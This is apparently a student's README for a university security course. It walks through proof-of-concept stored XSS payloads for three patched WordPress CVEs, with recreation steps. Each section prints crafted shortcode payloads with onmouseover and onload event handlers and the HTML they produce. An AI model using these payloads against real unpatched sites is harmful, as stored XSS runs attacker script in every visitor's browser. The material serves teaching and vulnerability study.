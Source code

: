 # Cybersecurity University: Week 7 Assignment
Assignment: Identify and demonstrate POCs for at least 3 exploits affecting older versions of WordPress.

**Exploits demonstrated**:
* [CVE 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622) / [CVE 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623): Authenticated Stored Cross-Site Scripting (XSS)
* [CVE 2015-5714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714): Authenticated Shortcode Tags Cross-Site Scripting (XSS)
* [CVE 2017-6817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817): Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

## #1: Authenticated Stored Cross-Site Scripting (XSS)

This exploit requires an attacker to have an account with posting capabilities (i.e. a minimum of Contributor level permissions). In this vulnerability, an attacker can insert arbitrary Javascript via a specially-crafted shortcode onto a page or a post.

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">link</a>
```
which WP processes to:
```
<a href="</a><a title=" <Event-attribute-with-JS-code-here> ">link</a>
```

### Example
If an attacker puts in the following:
```
<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">link</a>
```
WP processes this to become:
```
<a href="</a><a title=" onmouseover=alert('XSS!') ">link</a>
```
Here, the closing of the first `a` tag and the opening of the second `a` tag are caught up in the first `a` tag's `href` attribute, which means that the first `a` tag now has an `href` attribute **and** an `onmouseover` attribute (the latter of which executes our JS code). So, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS." Of course, one could replace this JS code with something far more malicious.

### Demonstration

The following video demonstrates this exploit: https://youtu.be/UWHUU_pFlb8

### Other Details
* **CVEs**: 2015-5622 and 2015-5623
* **Type**: XSS
* **Affects**: WordPress <=4.2.2
* **Patched**: WordPress 4.2.3

## #2: Authenticated Shortcode Tags XSS

Like the last one, this vulnerability also requires the attacker to have an account with posting capabilities. It takes advantage of a shortfall in WordPress's KSES filtering (which filters out non-whitelisted HTML tags). 

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
[caption width="1" caption='<a href="' ">]</a><a href=" <Event-attribute-with-JS-code-here> ">Click me!</a>
```
which WP processes to:
```
<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" <Event-attribute-with-JS-code-here> ">Click me</a>
```

### Example
If an attacker puts in the following:
```
[caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click me!</a>
```
WP processes this to become:
```
<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Click me</a>
```
Here, the closing of the first `a` tag, the `figcaption` tag, and the `figure` tag are all caught up in the first `a` tag's `href` attribute, which means that the first `a` tag now has an `href` attribute **and** an `onmouseover` attribute (the latter of which executes our JS code). (The `figcaption` tag that was opened at the beginning is left hanging.) Thus, like the last vulnerability, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."

### Demonstration

The following video demonstrates this exploit: https://www.youtube.com/watch?v=q9XJsXixbcE

### Other Details
* **CVE**: 2015-5714
* **Type**: XSS
* **Affects**: WordPress <=4.3
* **Patched**: WordPress 4.3.1

## #3: Authenticated Stored XSS in YouTube URL Embeds

Again, this vulnerability requires at least Contributor level privileges onto the site. Through this exploit, an attacker could take advantage of YouTube URL embeds to achieve a **stored/persistent** XSS attack that can affect any user who loads the compromised page.

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post. **Here, we demonstrate the vulnerability through the use of an embed shortcode**:

```
[embed src='https://www.youtube.com/embed/12345\x3csvg <Event-attribute-with-JS-code-here>\x3e'][/embed]
```
which WP processes to:
```
<p>https://youtube.com/watch?v=12345<svg <Event-attribute-with-JS-code-here>></p>
```

### Example
If an attacker puts in the following:
```
[embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("XSS!")\x3e'][/embed]
```
WP processes this to become:
```
<p>https://youtube.com/watch?v=12345<svg onload=alert("XSS!")></p>
```
Here, the opening and closing `p` tags surround **2** elements: Some text (`https://youtube.com/watch?v=12345`) and an SVG container (`<svg onload=alert("XSS!")>`). The browser loads this empty SVG container whose only attribute is an `onload` event attribute (which is executed automatically when the page loads). Thus, as soon as the compromised post/page loads, the browser shows an alert box with the word "XSS."

### Demonstration

The following video demonstrates this exploit: https://www.youtube.com/watch?v=YuqVKOiPfTU

### Other Details
* **CVE**: 2017-6817
* **Type**: XSS
* **Affects**: WordPress <=4.7.2
* **Patched**: WordPress 4.7.3
